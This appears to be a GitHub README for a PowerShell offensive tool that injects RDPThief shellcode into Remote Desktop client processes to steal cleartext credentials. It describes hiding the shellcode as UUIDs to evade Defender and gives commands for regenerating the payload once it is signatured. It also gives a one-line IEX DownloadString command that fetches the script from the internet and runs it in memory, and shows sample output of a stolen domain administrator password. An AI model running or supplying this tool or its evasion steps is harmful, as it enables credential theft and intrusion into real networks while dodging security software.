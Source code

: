 # Invoke-RDPThief

This PowerShell script runs on a loop hunting for mstsc.exe processes. When any are found, the script will perform process injection on the target process and inject RDPthief into the process in order to capture cleartext credentials.

RDPThief.dll was converted to shellcode with Donut, then converted to UUIDs with Shellgen to hide the shellcode in plainsight within the script. The UUIDs are then converted back into shellcode at runtime and injected whilst staying completley in memory.

Works against Defender as of 01/10/2024

## Payload creation
The payload in the script is ready to go however, the steps below can be followed if the payload is signatured in the future.

Convert RDPThief.dll into shellcode with Donut.
```
.\donut.exe -f:1 --input:C:\RdpThief.dll -e 3 -b 1 -x 3 -k 2
```

Convert to UUID with Shellgen
```powershell
Shellgen -RawFile "C:\loader.bin" -OutputFormat UUID
```
Take the output and place it into the $UUIDs array in Invoke-RDPThief.ps1

RDPThief: https://github.com/0x09AL/RdpThief

Donut: https://github.com/TheWover/donut

Shellgen: https://github.com/Leo4j/ShellGen

# Usage
```powershell
# Load into memory and execute
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/Invoke-RDPThief/refs/heads/main/Invoke-RDPThief.ps1")

```
## Output
```
[*] Hunting for mstsc...

[+] Successfully injected into process 5496

[+] Extracted Credentials

Server   : DC01.Security.local
Username : SECURITY\administrator
Password : Password123
```
